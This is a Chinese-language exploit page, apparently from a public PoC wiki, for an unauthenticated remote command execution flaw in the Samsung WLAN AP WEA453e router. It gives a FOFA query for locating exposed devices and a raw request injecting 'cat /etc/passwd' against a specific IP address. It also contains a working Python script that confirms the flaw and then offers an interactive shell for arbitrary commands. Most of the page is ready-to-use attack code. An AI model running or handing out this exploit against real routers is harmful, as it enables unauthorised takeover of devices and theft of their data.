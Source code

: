 # 三星-WLAN-AP-WEA453e路由器--远程命令执行漏洞

## 漏洞描述

三星 WLAN AP WEA453e路由器  存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 三星 WLAN AP WEA453e路由器

## FOFA

> [!NOTE]
>
> title=="Samsung WLAN AP"

## 漏洞复现

登录页面如下

![](三星-WLAN-AP-WEA453e路由器--远程命令执行漏洞.assets/1627363595783574.jpg)

请求包如下

```
POST /(download)/tmp/a.txt HTTP/1.1
Host: 175.199.182.152
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```

![](三星-WLAN-AP-WEA453e路由器--远程命令执行漏洞.assets/1627363596093042.jpg)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "root" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
            while True:
                cmd = str(input("\033[35mCmd >>> \033[0m"))
                POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[36m{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](三星-WLAN-AP-WEA453e路由器--远程命令执行漏洞.assets/16273635963731031.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Samsung_WLAN_AP_wea453e_router_RCE

![](三星-WLAN-AP-WEA453e路由器--远程命令执行漏洞.assets/16273635967395918.jpg)